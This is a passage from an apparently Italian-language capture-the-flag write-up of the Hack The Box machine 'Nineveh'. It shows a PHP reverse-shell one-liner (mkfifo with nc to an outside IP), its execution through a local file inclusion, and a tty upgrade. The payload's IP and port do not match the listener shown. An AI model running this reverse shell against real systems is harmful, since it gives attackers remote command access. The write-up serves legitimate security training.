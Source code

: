 Ora non ci resta che sostituire il codice php del database con una reveshell in php 

```bash
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 9443 >/tmp/f"); ?>
```

Ci mettiamo in ascolto con nc 

```bash
┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# nc -lnvp 4444
listening on [any] 4444 ...
```

Utilizziamo la nostra LFI  per eseguire il codice php, ottenendo cosi la nostra shell

```bash
┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.43] 37506
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Facciamo upgrade della shell

```bash
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@nineveh:/var/www/html/department$ ^Z
zsh: suspended  nc -lnvp 4444
                                                                                                                                                                                                                                           
┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# stty raw -echo; fg
[1]  + continued  nc -lnvp 4444

www-data@nineveh:/var/www/html/department$ xport SHELL=bash
xport: command not found
www-data@nineveh:/var/www/html/department$ export SHELL=bash
www-data@nineveh:/var/www/html/department$ export TERM=xterm-256color
www-data@nineveh:/var/www/html/department$ 

```

Proviamo a prendere la user flag ma non abbiamo i permessi in quanto il file è di proprietà  di amrois

```bash
www-data@nineveh:/home/amrois$ cat user.txt 
cat: user.txt: Permission denied
www-data@nineveh:/home/amrois$ 

www-data@nineveh:/home/amrois$ ls -l 
total 4
-rw------- 1 amrois amrois 33 Jun 20 23:35 user.txt

```
